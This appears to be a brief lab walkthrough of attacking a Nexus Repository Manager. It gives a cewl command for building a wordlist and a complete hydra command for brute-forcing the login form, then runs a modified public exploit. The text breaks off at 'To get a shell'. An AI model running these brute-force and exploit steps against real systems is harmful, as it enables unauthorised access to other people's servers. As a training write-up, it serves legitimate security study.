





There is nexus repository manager

Intercepting the login request

It is base64 encoded then url encoded.

Now we can create a custom wordlist:
```
cewl http://192.168.227.61:8081/ --lowercase | grep -v CeWL > custom-wordlist.txt
```
Now we can use hydra to bruteforce:
```
hydra -I -f -L custom-wordlist.txt -P custom-wordlist.txt 'http-post-form://192.168.227.61:8081/service/rapture/session:username=^USER64^&password=^PASS64^:C=/:F=403'
```

Got the password and username

Now using exploit for nexus:
https://www.exploit-db.com/exploits/49385

We can modify it and run it:
```
python3 nexus.py
```

To get a shell:
